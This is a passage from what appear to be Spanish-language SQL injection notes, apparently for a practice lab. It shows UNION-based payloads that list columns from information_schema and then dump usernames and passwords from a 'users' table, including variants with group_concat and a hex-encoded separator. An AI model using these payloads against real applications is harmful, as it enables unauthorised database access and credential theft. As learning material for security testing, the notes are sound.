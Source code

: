 Hecho esto nos apareceran 2, `users` y `production`...

```mysql
' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users'-- - 

#Listar columnas
```

REPRESENTATIVO:

```mysql
' union select column_name,NULL from information_schema.columns where table_schema='database' and table_name='table'-- -
```

Con esto listamos las columnas que se encuentran dentro de la tabla `users`...

```mysql
' union select group_concat(username,':',password),NULL from users-- -
```

o

```mysql
' union select 'username',NULL from users-- -

' union select 'password',NULL from users-- -
```

o

```mysql
' union select username||':'||password,NULL from users-- -
```

o

```mysql
' union select group_concat(username,0x3a,password),NULL from users-- -
```

Este ultimo ejemplo es por si no admitiera concatenar la informacion de las columnas con separaciones de `:` se podria poner los `:` pero de manera hexadecimal y su valor seria...

```
: = 3A ==> : = 0x3a
```

Esto se puede mirar en la terminal y filtrando por los `:` poniendo...

```shell
man ascii

#Dentro de esa interfaz
/:
```

o

```shell
man ascii | grep ':'
```
